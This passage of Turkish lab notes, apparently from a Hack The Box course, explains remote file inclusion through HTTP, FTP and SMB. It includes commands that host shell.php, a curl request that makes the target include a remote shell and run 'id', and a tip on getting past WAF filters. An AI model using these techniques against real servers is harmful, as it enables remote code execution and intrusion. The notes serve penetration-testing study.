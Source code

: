```shell-session
M1R4CKCK@htb[/htb]$ sudo python3 -m http.server <LISTENING_PORT>
Serving HTTP on 0.0.0.0 port <LISTENING_PORT> (http://0.0.0.0:<LISTENING_PORT>/) ...

SERVER_IP - - [SNIP] "GET /shell.php HTTP/1.0" 200 -
```

İpucu: İsteğin belirttiğimiz şekilde gönderildiğinden emin olmak için makinemizdeki bağlantıyı inceleyebiliriz. Örneğin, isteğe fazladan bir uzantı (.php) eklendiğini görürsek, bunu payload'umuzdan çıkarabiliriz


### FTP
Daha önce de belirtildiği gibi, betiğimizi FTP protokolü aracılığıyla da barındırabiliriz. Python'un pyftpdlib'i ile aşağıdaki gibi temel bir FTP sunucusu başlatabiliriz:

```shell-session
M1R4CKCK@htb[/htb]$ sudo python -m pyftpdlib -p 21

[SNIP] >>> starting FTP server on 0.0.0.0:21, pid=23686 <<<
[SNIP] concurrency model: async
[SNIP] masquerade (NAT) address: None
[SNIP] passive ports: None
```

Bu, http portlarının bir güvenlik duvarı tarafından engellenmesi veya http:// stringinin bir WAF tarafından engellenmesi durumunda da yararlı olabilir. Scriptimizi eklemek için, daha önce yaptığımızı tekrarlayabiliriz, ancak URL'de ftp:// şemasını aşağıdaki gibi kullanabiliriz:

![Pasted image 20241118021714.png](/img/user/resimler/Pasted%20image%2020241118021714.png)

Gördüğümüz gibi, bu http saldırımıza çok benzer şekilde çalıştı ve komut çalıştırıldı. PHP varsayılan olarak anonim bir kullanıcı olarak kimlik doğrulaması yapmaya çalışır. Eğer sunucu geçerli bir kimlik doğrulaması gerektiriyorsa, kimlik bilgileri URL'de aşağıdaki gibi belirtilebilir:

```shell-session
M1R4CKCK@htb[/htb]$ curl 'http://<SERVER_IP>:<PORT>/index.php?language=ftp://user:pass@localhost/shell.php&cmd=id'
...SNIP...
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```


### SMB
Savunmasız web uygulaması bir Windows sunucusunda barındırılıyorsa (HTTP yanıt başlıklarındaki sunucu sürümünden anlayabiliriz), remote file inclusion için SMB protokolünü kullanabileceğimizden, RFI exploit için allow_url_include ayarının etkinleştirilmesine gerek yoktur. Bunun nedeni Windows'un uzak SMB sunucularındaki dosyaları UNC yolu ile doğrudan başvurulabilen normal dosyalar olarak değerlendirmesidir.

Varsayılan olarak anonim kimlik doğrulamasına izin veren Impacket'in smbserver.py dosyasını kullanarak aşağıdaki gibi bir SMB sunucusu oluşturabiliriz:

```shell-session
M1R4CKCK@htb[/htb]$ impacket-smbserver -smb2support share $(pwd)
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```
